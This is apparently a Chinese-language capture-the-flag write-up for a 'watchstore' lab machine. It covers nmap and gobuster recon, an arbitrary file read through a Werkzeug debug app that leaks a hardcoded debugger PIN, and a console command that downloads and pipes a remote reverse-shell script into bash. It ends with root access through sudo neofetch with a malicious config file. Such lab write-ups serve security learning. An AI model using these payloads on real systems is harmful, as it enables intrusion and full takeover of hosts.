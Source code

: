 # **一、信息收集**

## **1.1 主机发现**

首先，在当前网段中使用 `arp-scan` 进行主机发现，确定目标主机的IP地址。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l       
...
192.168.205.152 08:00:27:e0:02:1a       PCS Systemtechnik GmbH
...
```

扫描结果表明，目标主机的IP地址为 `192.168.205.152`。

## **1.2 端口扫描**

使用 `nmap` 对目标主机进行全端口扫描，以识别开放的端口和服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p0-65535 192.168.205.152
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 07:42 EDT
Nmap scan report for watchstore.thl (192.168.205.152)
Host is up (0.00026s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 08:00:27:E0:02:1A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
...
```

扫描发现主机开放了 `22` (SSH) 和 `8080` (http-proxy) 两个端口。访问8080端口的Web服务时，页面跳转到了域名 `watchstore.thl`。

## **1.3 本地DNS解析配置**

为了正常访问该网站，需要将域名与IP地址的映射关系添加到本地的 `/etc/hosts` 文件中。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ tail -n 1 /etc/hosts
192.168.205.152 watchstore.thl
```

## **1.4 Web目录扫描**

配置好hosts后，使用 `gobuster` 对网站进行目录扫描，寻找隐藏的路径或功能点。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://watchstore.thl:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,zip,db,bak -t 64
===============================================================
...
===============================================================
/products             (Status: 200) [Size: 772]
/read                 (Status: 500) [Size: 13133]
/console              (Status: 200) [Size: 1563]
...
```

扫描发现了几个关键路径，其中 `/read` 返回了500错误，`/console` 页面似乎是一个控制台。

# **二、漏洞挖掘与利用**

## **2.1 Werkzeug调试器信息泄露**

直接访问 `/read` 路径，服务器返回了一个详细的错误页面。这是一个由 Werkzeug 启动的调试器界面，通常在开发环境中出现，当Web应用在调试模式（Debug Mode）下运行时，若程序出现未被捕获的异常，就会展示该页面。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 'http://watchstore.thl:8080/read'
...
<h1>Exception</h1>
<div class="detail">
  <p class="errormsg">Exception: Falta el parámetro &#x27;id&#x27;
</p>
</div>
<h2 class="traceback">Traceback <em>(most recent call last)</em></h2>
...
  <h4>File <cite class="filename">"/home/relox/watchstore/app.py"</cite>,
      line <em class="line">65</em>,
      in <code class="function">read_file</code></h4>
...
  <blockquote>Exception: Falta el parámetro 'id'
</blockquote>
...
```

这个报错页面泄露了以下关键信息：
1.  **错误原因**：提示 "Falta el parámetro 'id'"，说明 `/read` 路由需要一个名为 `id` 的参数。
2.  **绝对路径**：暴露了应用程序的绝对路径 `/home/relox/watchstore/app.py`。
3.  **漏洞类型**：从函数名 `read_file` 和参数 `id` 推断，这里可能存在任意文件读取（LFI）漏洞。
4.  **调试控制台**：Werkzeug调试器通常包含一个交互式控制台，可以通过 PIN 码解锁后执行任意Python代码。

## **2.2 任意文件读取漏洞利用**

利用上一步发现的LFI漏洞和泄露的绝对路径，尝试读取 `app.py` 文件的源代码。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 'http://watchstore.thl:8080/read?id=/home/relox/watchstore/app.py'

<pre>import os
os.environ['WERKZEUG_DEBUG_PIN'] = '612-791-734'

from flask import Flask, render_template, request, abort, redirect
...
@app.route('/read')
def read_file():
    filepath = request.args.get('id')
    if not filepath:
        raise Exception("Falta el parámetro 'id'")  # Esto mostrará el traceback
    try:
        with open(filepath, 'r') as f:
            content = f.read()
    except Exception as e:
        content = f"No se pudo leer el archivo: {e}"
    return f"<pre>{content}</pre>"

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8080, debug=True)
</pre>
```

成功读取到 `app.py` 的源代码。代码中明确指出了 `debug=True`，并且硬编码了 **Werkzeug 调试器的PIN码：`612-791-734`**。

## **2.3 获取反向Shell**

有了PIN码，就可以利用之前发现的 `/console` 路径来执行任意代码。

1.  访问 `http://watchstore.thl:8080/console`。
2.  在PIN码输入框中输入 `612-791-734` 解锁控制台。
3.  在控制台中输入可以反弹shell的Python代码。这里使用 `wget` 下载并执行远程脚本的方式。

```python
import os
os.system("busybox wget 192.168.205.128/reverse.sh -O - | bash")
```

执行后，在本地监听的端口成功接收到来自目标服务器的shell。

# **三、权限提升**

## **3.1 初步立足与信息收集**

获取初始shell后，进行简单的环境配置和信息收集。

```bash
# 稳定shell
relox@thehackerslabs-watchstore:~/watchstore$ export TERM=xterm
relox@thehackerslabs-watchstore:~/watchstore$ export SHELL=/bin/bash
relox@thehackerslabs-watchstore:~/watchstore$ stty rows 24 columns 80

# 查看当前目录和上级目录
relox@thehackerslabs-watchstore:~/watchstore$ ls -al
...
-rw-r--r-- 1 relox relox 2212 jun 16 10:57 app.py
...
relox@thehackerslabs-watchstore:~$ ls -al
...
-rw-r--r-- 1 relox relox   33 jun 16 11:10 user.txt
...

# 读取user flag
relox@thehackerslabs-watchstore:~$ cat user.txt 
43209bbbe021f88cf1a53b9e5da8a
```

接下来，使用 `sudo -l` 命令检查当前用户 `relox` 的 `sudo` 权限。

```bash
relox@thehackerslabs-watchstore:~$ sudo -l
...
User relox may run the following commands on thehackerslabs-watchstore:
    (root) NOPASSWD: /usr/bin/neofetch
```

结果显示，`relox` 用户可以无需密码以 `root` 身份执行 `/usr/bin/neofetch` 命令。

## **3.2 利用 neofetch Sudo 提权**

查询 [GTFOBins](https://gtfobins.github.io/gtfobins/neofetch/#sudo) 可知，`neofetch` 可以通过 `--config` 参数加载一个自定义配置文件。如果这个配置文件中的内容是可执行的命令，`neofetch` 会在启动时执行它。

利用此特性，可以构造一个恶意的配置文件来获取 `root` shell。

1.  创建一个文件，内容为执行 `/bin/bash`。

    ```bash
    relox@thehackerslabs-watchstore:~$ echo 'exec /bin/bash' > shell_config
    ```

2.  使用 `sudo` 和 `--config` 参数指定该文件来运行 `neofetch`。

    ```bash
    relox@thehackerslabs-watchstore:~$ sudo /usr/bin/neofetch --config shell_config
    ```

命令执行后，成功获得了 `root` 权限的shell。

## **3.3 获取 Root Flag**

最后，读取 `/root` 目录下的 `root.txt` 文件，完成提权。

```bash
root@thehackerslabs-watchstore:/home/relox# cat /root/root.txt 
c3ab266a11de0294257eaef3571bdf37
```